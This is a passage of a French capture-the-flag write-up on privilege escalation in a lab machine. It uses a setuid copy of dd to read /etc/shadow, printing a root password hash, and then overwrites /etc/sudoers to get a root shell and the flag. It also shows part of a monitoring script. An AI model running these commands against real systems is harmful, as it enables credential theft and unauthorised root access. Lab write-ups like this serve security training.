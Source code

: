 En regardant le contenu du binaire avec `strings` on a du mal à comprendre ce qu'il fait. Il y a beaucoup de chaines et
le binaire n'est pas static, ça ne ressemble pas à un programme custom.

Notre seule solution, c'est l'exécution :

```console
umzyyds@Umz:~$ file Dashazi 
Dashazi: setuid, setgid ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=21bfd63cfb732f9c09d17921f8eef619429bcd35, stripped
umzyyds@Umz:~$ ./Dashazi 
id
^C0+1 records in
0+0 records out
0 bytes copied, 10.2457 s, 0.0 kB/s
```

Je reconnais l'output qui est celui de la commande `dd` qui sert à copier toute sorte de choses (fichiers, périphériques, etc).

J'ai débord copié `shadow` dans l'idée de casser le mot de passe de `root` :

```console
umzyyds@Umz:~$ ./Dashazi if=/etc/shadow of=shadow
2+1 records in
2+1 records out
1076 bytes (1.1 kB, 1.1 KiB) copied, 0.000167197 s, 6.4 MB/s
umzyyds@Umz:~$ head -1 shadow 
root:$6$ncNrfMmFicrVYnMJ$eRxtK.IK.8vvnkzP8PMhc6HOpXWlSFs4vMyj5yz2qmIgQMAi6Zjv0vTF7YFo07hw1U.QAEGHAZRqeWOA15qcY1:20211:0:99999:7:::
```

Mais après avoir laissé tourner JtR un moment, j'ai abandonné.

J'ai choisis la même approche que sur [Magifi]({% link _posts/2025-05-14-Solution-du-CTF-Magifi-de-HackMyVM.md %}#alohomora), à savoir ajouter une ligné à `sudoers` :

```console
umzyyds@Umz:~$ echo -e "\numzyyds ALL=(ALL) NOPASSWD: /usr/bin/bash" >> sudoers_copy 
umzyyds@Umz:~$ ./Dashazi if=sudoers_copy of=/etc/sudoers
1+1 records in
1+1 records out
755 bytes copied, 0.00908441 s, 83.1 kB/s
umzyyds@Umz:~$ sudo bash
root@Umz:/home/umzyyds# id
uid=0(root) gid=0(root) groups=0(root)
root@Umz:/home/umzyyds# cd /root
root@Umz:~# ls
flask_debug.py  monitor.sh  root.txt
root@Umz:~# cat root.txt 
flag{root-a73c45107081c08dd4560206b8ef8205}
```

Par curiosité voici le script qui surveillait le "stress" sur le script PHP :

```bash
#!/bin/bash
# 文件名：monitor.sh
TARGET_URL="http://localhost/index.php"
CHECK_INTERVAL=3  # 检测间隔3秒
MAX_FAILS=3        # 连续失败3次触发操作
FAIL_COUNT=0

while true; do
    # 检查页面是否包含特征字符串（超时3秒）
    RESPONSE=$(timeout 3 curl -s -w "%{http_code}" "$TARGET_URL")
    STATUS=$?
    HTTP_CODE=$(echo "$RESPONSE" | tail -n1)
```